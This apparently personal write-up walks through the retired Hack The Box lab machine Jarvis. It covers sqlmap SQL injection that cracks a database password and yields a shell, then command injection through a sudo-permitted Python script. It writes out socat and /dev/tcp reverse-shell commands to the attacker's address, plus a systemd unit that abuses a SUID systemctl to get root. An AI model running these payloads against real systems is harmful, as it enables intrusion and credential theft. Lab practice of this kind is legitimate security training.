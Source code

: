```yaml
---
layout: post
title:  "HTB - Jarvis"
date:   2020-06-07 20:00 +0100
tags: writeups
initial: 2019-09-07
---
```

Writeup for the retired HTB machine Jarvis  
Link: https://www.hackthebox.eu/home/machines/profile/194  
IP: 10.10.10.143

<!--more-->

## Recon
nmap reveals a very limited port selection:
```
22/tcp    open     ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
5355/tcp  filtered llmnr
64999/tcp open     http    Apache httpd 2.4.25 ((Debian))
```

The web page on port 80 is a php site with not much at the first glance.  
On port 64999 you'll get a blank page with "Hey you have been banned for 90 seconds, don't be bad" on the first call. Interesting.  
Let's get the gobuster warmed up!

## Gobuster port 80
```
/images (Status: 301)
/index.php (Status: 200)
/nav.php (Status: 200)
/footer.php (Status: 200)
/back.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 301)
/connection.php (Status: 200)
/room.php (Status: 302)
/sass (Status: 301)
/server-status (Status: 403)
```

Huh. The site reacts weird if you play around with the Room Booking (http://10.10.10.143/room.php?cod=1) soooo... sqlmap to the rescue!


## SQLMap all ze things!

`sqlmap -u http://10.10.10.143/room.php?cod=2 --dump`

That works like a charm. So let's see if we can dump passwords from the db :3  

`sqlmap -u http://10.10.10.143/room.php?cod=2 --passwords` aaaaaaand success!  

```
[10:43:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[10:43:12] [INFO] fetching database users password hashes
[10:43:12] [INFO] used SQL query returns 1 entry
[10:43:12] [INFO] used SQL query returns 1 entry
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[10:43:18] [INFO] writing hashes to a temporary file '/tmp/sqlmapQV5_6528897/sqlmaphashes-wQNuZc.txt' 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
[10:43:22] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
[10:44:00] [INFO] using custom dictionary
[10:44:04] [INFO] starting dictionary-based cracking (mysql_passwd)
[10:44:04] [INFO] starting 2 processes 
[10:44:04] [INFO] cracked password 'imissyou' for user 'DBadmin'                                                                                                     
[10:45:16] [INFO] current status: nutju... -^C
[10:45:16] [WARNING] user aborted during dictionary-based attack phase (Ctrl+C was pressed)
database management system users password hashes:                                                                                                                    
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou
```
So with that, we could log in into the phpMyAdmin, right? But wait, sqlmap can do so much more.  
`sqlmap -u http://10.10.10.143/room.php?cod=2 --os-shell`  
aaaaand we got ourselves a shell as `www-data`. By looking around a bit, we learn that the target user is named `pepper`.  
Also, there's an interesting script in `/var/www/Admin-Utilities`, it's `simpler.py`.  
Let's get that file:  
`sqlmap -u http://10.10.10.143/room.php?cod=2 --file-read=/var/www/Admin-Utilities/simpler.py`
Looks like the script does something in the user home. I wonder if there's some sudo config that allows me to run it as user?
`sqlmap -u http://10.10.10.143/room.php?cod=2 --os-cmd="sudo -l"`  
```
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```
And we're reaching the limits of the sqlmap console, because to do something interesting with the Python script,  
we need an interactive session. So fire up a python http server and wget the `apalaxsh.php` from this dir to `www-data`.  
Fire up nc with `nc -nvlp 9999`, open your browser and point it to `/apalaxsh.php` and voila - shell.  

## Road to user
Now we can play around with the full script as user pepper:  
`sudo --user=pepper /var/www/Admin-Utilities/simpler.py`  

This [article on Infoblox Shell Escape](https://packetstormsecurity.com/files/144749/Infoblox-NetMRI-7.1.4-Shell-Escape-Privilege-Escalation.html) provides some ideas on how to escape via sudo/ping:  

```
$ sudo --user=pepper /var/www/Admin-Utilities/simpler.py -p

Enter an IP: $(cat /home/pepper/user.txt)

ping: 2afa36c4f05b37b34259c93551f5c44f: Temporary failure in name resolution
```

but not only that. By upgrading the shell to a full interactive shell first (`python -c 'import pty; pty.spawn("/bin/sh")'`),  
we're able to spawn a shell as pepper:  
```
sudo --user=pepper /var/www/Admin-Utilities/simpler.py -p

Enter an IP: $(/bin/bash)
$(/bin/bash)
pepper@jarvis:/$ ^^
```
This shell isn't perfectly working, so we're upgrading to a full reverse shell. Fire up nc on port 8989 and  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.15.195:8989`
So let's continue. 


## Road to root  
So by poking around we find that systemctl has the SETUID bit set. That means that it runs under root!  
We could pin together a systemctl oneshot service to reverse shell out as root...  
```
[Unit]
Description=Black magic happening, avert your eyes

[Service]
RemainAfterExit=yes
Type=simple
ExecStart=/bin/bash -c "exec 5<>/dev/tcp/10.10.15.195/8888; cat <&5 | while read line; do $line 2>&5 >&5; done"

[Install]
WantedBy=default.target
```
Then make use of systemctl link to link the service file into the correct position:  
`systemctl link /home/pepper/apalax.service`
 and enable it, therefore opening the connection to port 8888 on our Machine:  
`systemctl start --now apalax`  

The shell's ugly but it works. `cat /root/root.txt` works like a charm.